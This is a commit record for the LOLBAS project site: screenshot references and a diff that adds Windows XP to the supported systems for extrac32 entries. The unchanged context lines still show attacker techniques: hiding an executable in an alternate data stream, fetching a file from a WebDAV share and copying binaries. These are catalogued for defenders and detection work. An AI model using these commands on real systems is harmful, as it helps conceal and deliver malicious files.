

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Extrac32.md, in a window 1280 px wide and 1400 px high, scrolled down 509 px. Shown: the whole window at 98% size, without its empty margins (191-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1821 px from its top, so only the background shows below that.

Commit message:
Applying update LOLBAS-Project/LOLBAS@5826e4d4153b6adb970bd0e59e252afd5b4732b7

```diff
--- a/_lolbas/Binaries/Extrac32.md
+++ b/_lolbas/Binaries/Extrac32.md
@@ -10,7 +10,7 @@ Commands:
     Category: ADS
     Privileges: User
     MitreID: T1564.004
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
     Tags:
       - Type: Compression
   - Command: extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
@@ -19,7 +19,7 @@ Commands:
     Category: ADS
     Privileges: User
     MitreID: T1564.004
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
     Tags:
       - Type: Compression
   - Command: extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
@@ -28,14 +28,14 @@ Commands:
     Category: Download
     Privileges: User
     MitreID: T1105
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
   - Command: extrac32.exe /C C:\Windows\System32\calc.exe C:\Users\user\Desktop\calc.exe
     Description: Command for copying calc.exe to another folder
     Usecase: Copy file
     Category: Copy
     Privileges: User
     MitreID: T1105
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
 Full_Path:
   - Path: C:\Windows\System32\extrac32.exe
   - Path: C:\Windows\SysWOW64\extrac32.exe
```
